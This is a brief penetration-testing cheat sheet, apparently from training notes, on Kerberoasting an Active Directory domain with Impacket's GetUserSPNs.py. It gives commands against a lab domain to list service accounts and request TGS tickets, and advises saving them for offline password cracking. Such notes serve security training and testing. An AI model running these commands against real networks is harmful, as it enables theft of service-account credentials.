 If you have credentials or hash to any domain joind user, then you can perform kerberoste.

To facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file
#### Listing SPN Accounts with GetUserSPNs.py

```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets

```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

#### Requesting a Single TGS ticket

```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
